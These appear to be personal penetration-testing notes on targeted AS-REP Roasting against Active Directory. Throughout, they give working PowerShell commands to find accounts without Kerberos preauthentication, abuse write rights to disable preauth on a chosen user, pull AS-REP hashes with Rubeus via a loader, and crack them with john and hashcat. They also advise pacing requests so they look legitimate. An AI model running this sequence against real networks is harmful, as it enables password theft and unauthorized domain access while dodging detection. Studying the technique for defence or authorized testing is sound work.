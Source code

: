 If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline

With sufficient rights (`GenericWrite` or `GenericAll`), Kerberos preauth can be forced disabled as well. **Targeted AS-REP Roasting to get a user password**

---
Discover AS-REP Roastable users (PowerView + AD Module)
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -
Properties DoesNotRequirePreAuth
```
---
**Targeted AS-REP Roast** - force disable Kerberos Preauth

Find possible ACLs to leverage
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Force disable Kerberos Preauth
```powershell
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
```

Verify
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
---
**DO ONE ACCOUNT AT A TIME TO HAVE THE TICKET REQUESTS LOOK LEGITIMATE**

AS-REP BBQ
```powershell
.\Loader.exe -path .\Rubeus.exe asreproast /user:VPN1user /outfile:VPN1user_asrep.txt
```

Crack
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt VPN1user_asrep.txt

hashcat -m 18200 VPN1user_asrep.txt ~/rockyou.txt -O -r ~/opt/wordlists/best64.rule
```

![[Pasted image 20250514193601.png]]